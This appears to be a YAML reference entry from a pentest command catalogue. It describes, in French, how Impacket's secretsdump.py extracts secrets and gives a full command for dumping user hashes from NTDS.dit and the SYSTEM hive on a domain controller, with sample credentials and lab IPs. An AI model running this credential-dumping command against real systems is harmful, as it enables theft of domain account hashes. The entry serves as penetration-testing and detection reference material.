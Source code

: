 ```yaml
---
description: |
  Le fichier secretsdump.py d'Impacket exécute diverses techniques pour extraire les secrets de la machine distante sans exécuter d'agent. Les techniques incluent la lecture des secrets SAM et LSA à partir des registres, l'extraction des hachages NTLM, des informations d'identification en clair et des clés kerberos, ainsi que l'extraction du fichier NTDS.dit. La commande suivante tente d'utiliser le fichier NTDS.dit et le fichier système des machines spécifiées pour extraire les hachages des comptes d'utilisateurs associés à cette machine.

  Command Reference:

  	Target IP: 10.10.10.2

  	Domain Controller: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

